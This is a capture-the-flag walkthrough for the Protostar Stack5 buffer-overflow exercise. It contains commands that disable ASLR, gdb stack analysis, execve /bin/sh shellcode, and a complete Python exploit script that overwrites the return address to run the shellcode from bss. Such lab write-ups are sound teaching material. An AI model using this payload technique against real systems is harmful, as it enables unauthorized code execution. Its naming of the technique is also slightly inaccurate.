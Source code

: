# Stack 5
## Overview
    We need to use the ret2libc technique to solve problem Stack5.
    Note: You need to close ASLR.
        $ sudo -s 
        Enter root password.
        # sudo echo 0 > /proc/sys/kernel/randomize_va_space
        # exit
        ---------------------------------------------------------
        Turn on ASLR if you're done.
        $ sudo -s 
        Enter root password.
        # sudo echo 2 > /proc/sys/kernel/randomize_va_space
        # exit
    Please read the "Method" part first before you read the "Process" part.
## Process
    1. Find number of paddings needed.
        (gdb) disas main
            Dump of assembler code for function main:
               0x080483c4 <+0>:     push   %ebp
               0x080483c5 <+1>:     mov    %esp,%ebp
               0x080483c7 <+3>:     and    $0xfffffff0,%esp
               0x080483ca <+6>:     sub    $0x50,%esp
               0x080483cd <+9>:     lea    0x10(%esp),%eax
               0x080483d1 <+13>:    mov    %eax,(%esp)
               0x080483d4 <+16>:    call   0x80482e8 <gets@plt>
               0x080483d9 <+21>:    leave
               0x080483da <+22>:    ret
            End of assembler dump.
        (gdb) b *main+21
            Breakpoint 1 at 0x80483d9: file stack5/stack5.c, line 11.
        (gdb) r
            Starting program:/home/mickey/Desktop
                            /protostar_exploit_practice/stack5
            AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
            Breakpoint 1, main (argc=1, argv=0xffffd684) at stack5/stack5.c:11
            11      stack5/stack5.c: No such file or directory.
        (gdb) x/28x $esp
            0xffffd590: 0xffffd5a0  0x0000002f  0xf7e12dc8  0xf7fd5858
            0xffffd5a0: 0x41414141  0x41414141  0x41414141  0x41414141
            0xffffd5b0: 0x41414141  0x41414141  0x41414141  0x41414141
            0xffffd5c0: 0x41414141  0x41414141  0x00414141  0xf7e34c0b
            0xffffd5d0: 0xf7fb83dc  0x080481e4  0x080483fb  0x00000000
            0xffffd5e0: 0xf7fb8000  0xf7fb8000  0x00000000  0xf7e1e637
            0xffffd5f0: 0x00000001  0xffffd684  0xffffd68c  0x00000000
        (gdb) x/x $ebp+4
            0xffffd5ec: 0xf7e1e637
    
        It is showed that As are stored from the first stack of line 0xffffd5a0
        to the third stack of line 0xffffd5c0.
        In order to reach the return address (last stack at line 0xffffd5e0), 
        we need 76 bytes to overwrite the space from 0xffffd5a0 to 0xffffd5e8.
    
    2. Find where gets function is stored.
        $ gdb -q ./stack5
        (gdb) info func
            All defined functions:
            File stack5/stack5.c:
            int main(int, char **);
            Non-debugging symbols:
            0x08048298  _init
            0x080482d8  __gmon_start__@plt
            0x080482e8  gets@plt
            0x080482f8  __libc_start_main@plt
            0x08048310  _start
            0x08048340  __do_global_dtors_aux
            0x080483a0  frame_dummy
            0x080483e0  __libc_csu_fini
            0x080483f0  __libc_csu_init
            0x0804844a  __i686.get_pc_thunk.bx
            0x08048450  __do_global_ctors_aux
            0x0804847c  _fini
    You can see the gets function is stored at 0x080482e8.
    
    3. Find bss_addr.
        Use IDA pro to find the last line of the binary file stored.
        In this case, the last line is abs:080496DC    end _start,
        so we take 080496DC as bss_addr.
    
    4. Search for usable shellcode from http://shell-storm.org/shellcode/
        shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89
                     \xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

    
    
## Method
    The rough concept is to key in "paddings + gets_addr + bss_addr + bss_addr 
    + '\n' + shellcode + '\n'".
    As problem Stack4, we need to use 76 bytes to overwrite the space of buffer
    (Paddings) and then overwrite the old return address with the one we want
    (gets_addr).
    Since the gets function in stack5.c may take the start of key in string to 
    newline character ("paddings + gets_addr + bss_addr + bss_addr + '\n') 
    as input, these read in data will be stored in stack as shown below.
                        esp-> -------------------
                                    paddings
                        ebp-> -------------------
                              ret addr (gets_addr)
                             -------------------
                                    bss_addr
                              -------------------
                                    bss_addr
                              -------------------
    After executing the gets function (stores the input data into stack), the 
    computer will then go to ebp+4 (ret addr). 
    The return address is set to the the address where gets function is
    stored (gets_addr), so the computer will then think there's another
    gets needs to be executed.
    The computer then takes first bss_addr as its return address, and second
    bss_addr as its parameter (where input data is stored).
    Thus, the remained key in string (shellcode + '\n') is taken as input to 
    this puts function and is stored at bss_addr.
    To be notice, bss_addr needs to be somewhere nothing is stored and has the 
    priviledge of rwx.
    
     
    
## Answer
    
    create stack5.py 
        import struct
        shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89
                    \xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
        payload = ""
        payload += "A"*76  #junk
        payload += struct.pack("<I",0x080482e8)  #plt_gets
        payload += struct.pack("<I",0x080496DC)  #rwx bss
        payload += struct.pack("<I",0x080496DC)  #rwx bss
        payload += "\n"
        payload += shellcode
        payload += "\n"
        print payload


    $ (python /home/mickey/Desktop/protostar/stack5.py ; cat ) | ./stack5
    ls
    ....files listed
